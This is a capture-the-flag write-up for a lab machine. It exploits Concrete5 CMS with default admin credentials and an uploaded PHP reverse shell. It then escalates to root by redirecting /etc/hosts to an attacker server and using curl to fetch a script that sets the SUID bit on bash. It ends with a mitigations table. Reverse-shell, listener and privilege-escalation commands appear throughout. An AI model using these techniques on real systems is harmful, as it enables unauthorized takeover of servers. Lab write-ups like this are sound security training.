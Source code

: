 [mKingdom](https://tryhackme.com/room/mkingdom)

**Difficulty:** Easy 
**Objective:** Exploit Concrete5 CMS for remote shell access, escalate privileges via `/etc/hosts` manipulation and SUID bit on bash to retrieve both flags.

---

## Table of Contents  
- [1. Summary](#1-summary)  
- [2. Methodology](#2-methodology)  
- [3. Reconnaissance](#3-reconnaissance)  
- [4. Enumeration](#4-enumeration)  
- [5. Exploitation](#5-exploitation)  
- [6. Privilege Escalation](#6-privilege-escalation)  
- [7. Post Exploitation](#7-post-exploitation)  
- [8. Flags / Proof](#8-flags--proof)  
- [9. Mitigations](#9-mitigations)  
- [10. Notes](#10-notes)

---

## 1. Summary  
**IP/URL:** 10.10.190.204  
**Service/Ports:** 85/HTTP  
**Entry Point:** Authenticated RCE via Concrete5 CMS admin panel  
**Privilege Escalation:** Overwrote `/etc/hosts`, executed remote script to apply SUID on bash  
**Outcome:** Shell as root, both flags captured

---

## 2. Methodology  
Following the PTES (Penetration Testing Execution Standard):  
1. Reconnaissance  
2. Enumeration  
3. Exploitation  
4. Privilege Escalation  
5. Post-Exploitation  
6. Reporting

---

## 3. Reconnaissance  
Initial Nmap scan:  
nmap -sV -sS 10.10.190.204  
Results:  
85/tcp open http Apache httpd 2.4.7 ((Ubuntu))

Visited:  
http://10.10.190.204:85/ → nothing useful  
Ran Gobuster:  
gobuster dir -u http://10.10.190.204:85 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  
Found `/app`, then redirected to `/app/castle/` via Jump link  
Discovered Concrete5 CMS (v8.5.2)

---

## 4. Enumeration  
Tested default credentials on login page:  
admin:admin → failed  
admin:password → success  
Confirmed admin access  
Researched vulnerabilities for Concrete5 8.5.2  
Enabled PHP in the file upload whitelist  
Uploaded php-reverse-shell from: https://github.com/pentestmonkey/php-reverse-shell  
Started listener: nc -lvnp 1337  
Spawned shell:  
python -c 'import pty;pty.spawn("/bin/bash")'

---

## 5. Exploitation  
Initial recon commands were unhelpful:  
sudo -l  
find / -perm -4000  

Uploaded and ran `linpeas.sh`  
Discovered a plaintext password for user `toad`  
Switched user: su toad → successful  

Ran LinPEAS again  
Found a base64-encoded string — decoded to get password for user `mario`  
Switched to `mario`  
Used `head` to retrieve first flag  
Enumerated permissions and discovered `mario` could write to `/etc/hosts`

---

## 6. Privilege Escalation  
Couldn’t edit `/etc/hosts` using `vim` or `nano`  
Used this command to overwrite `/etc/hosts` entry for mkingdom.thm:  
cat /etc/hosts | sed 's/127\.0\.1\.1\tmkingdom\.thm/IP.IP.IP.IP\t\tmkingdom.thm/g' > /tmp/hosts  
Copied modified file to `/etc/hosts`  
Created `/app/castle/application/counter.sh` on attacker’s HTTP server:  
#!/bin/bash  
chmod u+s /bin/bash  

Used curl on target to pull the script:  
curl mkingdom.thm:85/app/castle/application/counter.sh  
Executed: /bin/bash -p  
Gained root shell

---

## 7. Post Exploitation  
Ran: head /root/root.txt  

Captured final flag

---

## 8. Flags / Proof  
User Flag: Retrieved using `head` as user `mario`

Root Flag: Retrieved from `/root/root.txt` after applying SUID and spawning privileged shell

---

## 9. Mitigations  
| Vulnerability                    | Risk   | Suggested Mitigation                                |  
|----------------------------------|--------|-----------------------------------------------------|  
| Default CMS credentials          | High   | Enforce strong credential policies                  |  
| File upload with PHP execution  | High   | Restrict executable uploads, whitelist extensions   |  
| `/etc/hosts` write permissions  | High   | Restrict write access to system config files        |  
| SUID on bash                    | Critical | Audit script delivery vectors and remove unnecessary SUID bits |

---

## 10. Notes  
Time spent: ~3 hours  

Tools used: nmap, gobuster, linpeas.sh, curl, nc, Python, sed  

Lessons learned: File upload + CMS vulnerabilities can lead to full compromise. Watch for writable system files, creative privilege escalations via curl and hosts manipulation can be game-changers.
